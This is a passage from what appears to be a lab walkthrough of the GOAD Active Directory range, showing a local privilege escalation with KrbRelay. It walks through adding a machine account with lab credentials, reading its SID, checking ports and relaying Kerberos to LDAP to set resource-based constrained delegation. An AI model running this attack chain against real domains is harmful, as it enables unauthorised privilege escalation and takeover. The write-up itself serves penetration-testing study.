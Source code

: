 ![privesc_ldap_maq.png](/assets/blog/GOAD/privesc_ldap_maq.png)


- Add computer : 
```bash
addcomputer.py -computer-name 'krbrelay$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

- Get the SID of that computer:
```powershell
PS C:\Users\jon.snow\Desktop> $o = ([ADSI]"LDAP://CN=krbrelay,CN=Computers,DC=north,DC=sevenkingdoms,DC=local").objectSID
PS C:\Users\jon.snow\Desktop> (New-Object System.Security.Principal.SecurityIdentifier($o.value, 0)).Value
S-1-5-21-3469228063-1577654746-3345322900-1127
```

- Check ports

```powershell
PS C:\Users\jon.snow\Desktop> .\CheckPort.exe
[*] Looking for available ports..
[*] SYSTEM Is allowed through port 443
```

- Launch krbrelay

```powershell
PS C:\Users\jon.snow\Desktop> .\KrbRelay.exe -spn ldap/winterfell.north.sevenkingdoms.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-3469228063-1577654746-3345322900-1127 -port 443
```

![privesc_krbrelay.png](/assets/blog/GOAD/privesc_krbrelay.png)
